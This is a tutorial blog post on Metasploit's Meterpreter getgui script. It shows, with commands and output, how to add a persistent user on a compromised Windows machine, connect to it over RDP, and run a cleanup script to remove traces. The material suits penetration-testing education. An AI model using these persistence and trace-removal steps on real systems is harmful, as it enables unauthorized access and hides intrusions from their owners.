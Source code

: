 ```yaml
---
draft: false
title: MSF Remote Desktop Module
date: 2017-05-05T13:30:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: In this article, we will see how we can create a user in the system using the getgui command and then connect to this computer with the rdesktop command.
url: /msf-remote-desktop-module/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
linkTitle: MSF Remote Desktop
translation_key: msfremotedesktop
weight: 1
---
```


When you open a shell with Meterpreter in Metasploit Framework, one of the operations that can be done is to implement a remote desktop connection. The `getgui` command is very useful for this.

In this article, we will see how we can create a user in the system using the `getgui` command and then connect to this computer with the `rdesktop` command.

We assume that you have opened the Meterpreter shell on the target computer. Now we need the username and password required to establish a visual connection using the getgui command. When you create such a username and password, you will have ensured permanence.

First, let's look at the `getgui` help titles.

```bash
meterpreter > run getgui -h
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e   Enable RDP only.
    -f   Forward RDP Connection.
    -h   Help menu.
    -l   The language switch
         Possible Options: 'de_DE', 'en_EN' / default is: 'en_EN'
    -p   The Password of the user
```

## Adding a User

Generally, -u is used to specify the username, -p the password. When you use the getgui command in a similar way to the example below, you add a new user to the system.

```bash
meterpreter > run getgui -u loneferret -p password
> Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
> Carlos Perez carlos_perez@darkoperator.com
> Language detection started
>   Language detected: en_US
> Setting user account for logon
>   Adding User: loneferret with Password: password
>   Adding User: loneferret to local group ''
>   Adding User: loneferret to local group ''
> You can now login with the created user
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
meterpreter >
```

## Remote Desktop Connection

Now the user is created. You can connect to the remote desktop using this username and password from another computer on the same network.

```bash
root@kali:~#: rdesktop -u loneferret -p password 192.168.101.108
```

## Log Cleaning

The more you play around with the target system, the more likely you are to be recorded in the log records. For this reason, you should avoid unauthorized actions as much as possible or be content with intervening where necessary.

You may want to clean the log records of the user and session information you created with getgui. The following command example will be useful for this. You can check the most up-to-date version of the /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc file used in the example from the same folder.

```bash
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
> Running Command List ...
>   Running command execute -H -f cmd.exe -a "/c net user hacker /delete"
Process 288 created.
meterpreter >
```
